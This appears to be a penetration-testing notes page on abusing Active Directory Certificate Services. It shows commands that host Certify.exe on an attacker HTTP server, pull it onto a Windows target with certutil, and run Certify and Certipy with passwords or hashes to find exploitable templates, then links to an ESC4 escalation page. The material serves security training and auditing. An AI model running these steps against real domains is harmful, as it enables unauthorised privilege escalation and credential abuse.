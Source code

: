 # AD CS

> Active Directory Certificate Services (AD CS) is a critical component in enterprise networks. ADCS provides public key infrastructure (PKI) for managing digital certificates used in encryption, authentication, and digital signatures. While AD CS plays a vital role in securing communications and identities, it is often overlooked in security audits, leaving it vulnerable to exploitation. Misconfigurations in AD CS can lead to privilege escalation, lateral movement, and persistent attacks within compromised environments. Understanding and securing AD CS is therefore crucial to preventing certificate abuse and maintaining a robust infrastructure.With several ways to abuse misconfigurations on a Certificate Authority (CA) Server, it can be difficult to detect and respond because the techniques leverage legitimate functionalities within the component and by nature, the certificates (contrary to passwords) can remain active for extended periods of time.

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

#### Methodology:

* Upload `Certify.exe` to a Windows target system or use `certipy-ad` on linux
* Check the misconfiguration results (ESC...)
* Exploit misconfiguration to get more privs



## Get misconfiguration from target system

### Certify.exe (From Windows)

> **Certify** is a C# tool to **enumerate** and **abuse misconfigurations** in Active Directory Certificate Services (AD CS).

{% code title="Kali location" %}
```bash
/opt/SharpCollection/NetFramework_4.7_Any/
```
{% endcode %}

#### How it uses

Copy the executable and transfer it into target machine.

{% hint style="info" %}
SharpCollection required
{% endhint %}

{% code title="Create HTTP server" %}
```bash
cp /opt/SharpCollection/NetFramework_4.7_Any .
python3 -m http.server 80
```
{% endcode %}

{% code title="PowerShell" %}
```powershell
certutil -urlcache -f http://<IP>:<PORT>/Certify.exe
```
{% endcode %}

{% code title="Evil-WinRM" %}
```bash
> upload Certify.exe
```
{% endcode %}

Run the executable on Windows target to find certi vulns.

{% code title="Get Vulnerabilities w/ Certify" %}
```powershell
.\Certify.exe find /vulnerable
```
{% endcode %}



### Certipy.py

> **Certipy** is an offensive tool for **enumerating** and **abusing** Active Directory Certificate Services (AD CS)

{% embed url="https://github.com/ly4k/Certipy" %}

{% hint style="info" %}
Certipy-ad is already installed in kali linux
{% endhint %}

{% hint style="danger" %}
Check if the package is up to date!
{% endhint %}

{% code title="Upgrade package in kali" %}
```bash
pipx install certipy-ad
```
{% endcode %}

#### How it uses

Use the bellow command to get all vulnerabilities of the Certificate Templates.

{% code title="Get with pass" %}
```bash
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled
```
{% endcode %}

{% code title="Get with hash" overflow="wrap" %}
```bash
certipy find -u 'billy@foobar.com' -hashes <hashes> -dc-ip <DC_IP> -vulnerable -enabled
```
{% endcode %}

Use a simple `grep` command to get misconfiguration from the output file.

```bash
cat *_Certipy.txt | grep ESC
```



## Escalate Privilege with CertTemplates misconfigurations

An attacker abusing Active Directory Certificate Services (AD CS) typically follows a sequence of steps, targeting weaknesses in the ESC configuration and processes, focusing on compromising certificates for privilege escalation and lateral movement.



### ESC4 - Vulnerable Certificate Template Access Control

Follow the page below to use this technique to get administrator access to the DC.

{% content-ref url="esc4.md" %}
[esc4.md](esc4.md)
{% endcontent-ref %}













